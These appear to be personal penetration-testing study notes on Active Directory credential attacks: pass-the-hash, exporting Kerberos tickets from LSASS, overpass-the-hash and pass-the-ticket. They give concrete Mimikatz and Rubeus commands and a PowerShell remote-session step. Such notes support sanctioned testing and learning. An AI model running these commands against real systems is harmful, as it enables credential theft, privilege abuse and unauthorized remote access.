 		- This command creates a new user named Mark and adds them to the admin group (we didn't get to log in as the person whose hash we had, we simply passed the hash and borrowed their rights for a process)


# Kerberos Tickets

## Export Kerberos Tickets

Instead of an NTLM hash, you can use a stolen Kerberos ticket.

If you get local administrator access, you can steal tickets stored by LSASS.

Tickets ending with $ correspond to the computer account. Tickets that have @ represent the user's name, service name, and domain name.

Mimikatz command usage
- `mimikatz.exe` -> `privilege::debug` -> `sekurlsa::tickets /export`
- these may not work anymore? wrong encryption type exported from Mimikatz?

Rubeus
- `Rubeus.exe dump /nowrap`

## Pass the Key (OverPass the Hash) (Forges a new TGT)
Converts a hash/key into a TGT. This is helpful when you have cleartext or hashed user password but need Kerberos authentication to access something.

Traditional PTH doesn't touch kerberos. Pass the Key or OverPass The Hash converts a hash/key into a Ticket-Granting-Ticket (TGT)

First use Mimikatz to extract user's hash:
- `mimikatz.exe` -> `privilege::debug` -> `sekurlsa::ekeys`

OverPass with Mimikatz (admin rights required)
- `mimikatz.exe` -> `privilege::debug` -> `sekurlsa::pth /domain: /user: /ntlm:`

OverPass with Rubeus (admin rights NOT required)
- can use rc4, aes128, aes256, or des
- `Rubeus.exe asktgt /domain: /user: /[type]: /nowrap`
- `[type]` example might be something like `/aes256:`


## Pass the Ticket

Mimikatz
- `mimikatz.exe` -> `privilege::debug` -> `kerberos::ptt "[path to .kirbi file]"`
- this doesn't really return anything, it just adds the ticket for you so you can access other resources that it grants

Opening a remote PS shell with PTT
- you can run PS scripts on remote computers, you need administrative permissions to do so (or, user can be in the Remote Management Users group)
- Conduct a PTT attack with the mimikatz or Rubeus instructions first
- Use the ticket to start a session from cmd:
	- `powershell` -> `Enter-PSSession -ComputerName [name]`
	- Assuming we imported a ticket that gave us access to the named computer/DC, this will open a remote PS shell on that device
